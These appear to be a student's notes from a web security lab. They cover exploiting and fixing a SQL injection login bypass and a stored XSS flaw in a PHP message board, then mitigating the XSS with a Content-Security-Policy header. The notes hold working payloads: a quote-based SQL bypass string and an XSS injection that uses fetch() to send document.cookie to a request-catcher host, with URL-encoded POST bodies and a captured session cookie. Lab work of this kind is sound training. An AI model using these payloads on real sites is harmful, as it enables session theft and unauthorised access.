

# Web Security

Start 13:00


## 1. SQL Injection exploit
Url http://9c508440-2d3d-44f4-9e93-7341e2d46cf6.rdocker.vuln.land/app/index.php (message board started)

Attempts (with success as last attempt)
- `' OR 1=1#` -> invalid credentials
- `' OR 1=1--` -> invalid credentials (sql serve)
- `" OR 1=1#` -> doesn't seem to work but i don't get invalid credentials. Maybe `"` is character to jump out of context
- `" OR ""="` -> works 
    - this is the solution

## 2. SQL Injection fix
http://9c508440-2d3d-44f4-9e93-7341e2d46cf6.rdocker.vuln.land/theia/#/home/theia/workspace.theia-workspace  (development environment)

Relevant code in index.php (without fix): 
```
    $db = new SQLite3('user.db');
	$query = 'SELECT * FROM user WHERE username=:username AND password="' . $password . '"';

	try {
		$stmt = $db->prepare($query);
		$stmt->bindValue(':username', $username);
		$results = $stmt->execute();
```

Code with fix (parameterize password and dont concatenate strings with user input to form an sql query)
```
    $db = new SQLite3('user.db');
    $query = 'SELECT * FROM user WHERE username=:username AND password=:password';

	try {
		$stmt = $db->prepare($query);
		$stmt->bindValue(':username', $username);
        $stmt->bindValue(':password', $password);
		$results = $stmt->execute();
```

## 3. XSS Exploit
http://9c508440-2d3d-44f4-9e93-7341e2d46cf6.rdocker.vuln.land/app/app.php (site with vulnerability)
https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/ (request catcher)

Vulnerability of found in app.php: color is not htlm encoded
```
 $username = $row['username'];
  $color = $row['color']; // NOT htlm encoded
  $message = htmlentities($row['message']);
  echo <<<EOF
  <tr>
      <td>
          Message from: $username
          <font color="$color"><pre>$message</pre></font>
      </td>
  </tr>
```

to exploit it I need to post my attack code to post for the color property. 
i can do this with firefox developer tools (or some other tool like burp)

**Simple exploit with alert message**
`red"><script>alert('ss')</script><font color="`
-> url encoded: red%22%3E%3Cscript%3Ealert%28%27ss%27%29%3C%2Fscript%3E%3Cfont%20color%3D%22
Entire post body: "action=postMessage&color=red%22%3E%3Cscript%3Ealert%28%27ss%27%29%3C%2Fscript%3E%3Cfont%20color%3D%22&message=tttttt"

**Exploit sending to captcha (solution)**
Basics 
- Example capta request: https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/test?xx=aa
- code to send cookies`<script>fetch('https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/test?cc='+document.cookie)</script>`
- Exploit code for color param: 
    - `red"><script>fetch('https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/test?cc='+document.cookie)</script><font color="`
    - url encoded: `red%22%3E%3Cscript%3Efetch%28%27https%3A%2F%2Fdbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land%2Ftest%3Fcc%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%3Cfont%20color%3D%22`
- request body for exploit
    - `action=postMessage&color=%23000000&message=zzz`
    - `action=postMessage&color=red%22%3E%3Cscript%3Efetch%28%27https%3A%2F%2Fdbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land%2Ftest%3Fcc%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%3Cfont%20color%3D%22&message=zzz`
    - Cookie value: PHPSESSID=skqhnpip1in94ak9hrms8j493e




## 4. XSS Mitigation
Since there is not enough time to fix the app, i added
CSP policy. So now the appache webservers sends the response header with the CSP policy that prevents inline scripts: 
added in httpd.conf  (Between "INSERT WAF virtual path and END insert):
```
Header add Content-Security-Policy "default-src 'self'"
```

Another possibility would have been to try a rewrite the output (very difficult) or validate the request via Regex and then reject if it contains a script tag. 